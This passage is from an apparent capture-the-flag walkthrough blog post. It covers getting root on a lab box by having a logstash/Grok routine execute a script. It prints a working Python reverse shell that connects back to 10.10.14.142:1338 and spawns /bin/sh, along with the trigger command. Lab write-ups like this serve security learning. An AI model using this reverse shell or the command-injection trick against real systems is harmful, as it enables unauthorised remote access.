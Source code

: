 There&#8217;s multiple ways to do it, but creating a python script for the reverse shell and calling the script with the Grok command should work. My reverse shell script:

<pre class="lang:python decode:true">#!/usr/bin/python
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.142",1338))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);</pre>

And the Grok command to send:

<pre class="lang:zsh highlight:0 decode:true">Ejecutar comando: /tmp/rshell.py</pre>

And it&#8217;ll take a little while for the logstash routine to run the payload, but it does eventually work!

<img class="alignnone size-full wp-image-375" src="http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-04_14h30_08.png" alt="" width="723" height="148" srcset="http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-04_14h30_08.png 723w, http://dustinwatts.me/wp-content/uploads/2019/10/2019-10-04_14h30_08-300x61.png 300w" sizes="(max-width: 723px) 100vw, 723px" /> 

From there, just grab the root flag and this box is done!!

&nbsp;